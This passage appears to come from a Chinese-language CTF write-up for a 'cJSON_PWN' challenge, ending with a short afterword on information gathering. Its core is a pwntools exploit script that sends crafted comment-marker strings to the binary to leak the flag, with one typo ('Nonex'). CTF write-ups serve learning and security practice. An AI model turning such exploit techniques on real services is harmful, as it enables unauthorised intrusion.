正好4次输入正好可以泄露出flag。

## exp

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2021/12/29 09:59:15
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=1
elf='./cJSON_PWN'
e=ELF(elf)
#context.log_level = 'debug'
context.arch=e.arch
ip_port=['',]

debug=lambda : gdb.attach(p) if local_mote==1 else Nonex

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])



debug()
x='s/*aaaaaaa'


x='/*'.rjust(0xe,'x')
y='1111/*'.ljust(0xe,'q')
print(x+y)
p.send(x+y)
x='/*1111111'.rjust(0xe,'x')
y='/*'.ljust(0xe,'q')
print(x+y)
p.send(x+y)
p.interactive()
```

## 后记-信息收集

在查阅这个题资料时发现这原理是一个信息收集题，orw...

